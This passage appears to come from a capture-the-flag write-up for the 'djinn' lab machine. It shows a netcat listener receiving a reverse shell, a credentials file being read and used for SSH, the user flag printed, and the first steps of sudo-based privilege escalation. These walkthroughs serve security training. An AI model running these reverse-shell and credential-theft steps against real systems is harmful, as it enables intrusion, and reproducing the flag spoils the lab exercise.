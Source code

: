 Connected successfully as the user `www-data`:
```bash
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.103] from (UNKNOWN) [192.168.1.102] 57234
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's have a look at the content of `/home/nitish/.dev/creds.txt`:
```sh
cat /home/nitish/.dev/creds.txt
nitish:p4ssw0rdStr3r0n9
```

Looks like SSH credentials!

## Privilege Escalation
Trying to login to SSH with the credentials above was successful, and we got the user flag:
```bash
nitish@djinn:~$ ls
user.txt
nitish@djinn:~$ cat user.txt
10aay8289ptgguy1pvfa73alzusyyx3c
```

Now let's check for sudo permissions using `sudo -l`:
```bash
nitish@djinn:~$ sudo -l
Matching Defaults entries for nitish on djinn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nitish may run the following commands on djinn:
    (sam) NOPASSWD: /usr/bin/genie
nitish@djinn:~$ genie
usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish
genie: error: the following arguments are required: wish
```

User *nitish* can run `/usr/bin/genie/` with *sam*'s permissions.  
The binary program `genie` takes different arguments, and does not seem to help us get anything by using it 'as planned'.

Let's try and get some info about `genie` using `strings`:
```bash
nitish@djinn:~$ strings /usr/bin/genie

help
exit
--exec
bash
args
--god
-cmd
/bin/
;*3$"

```
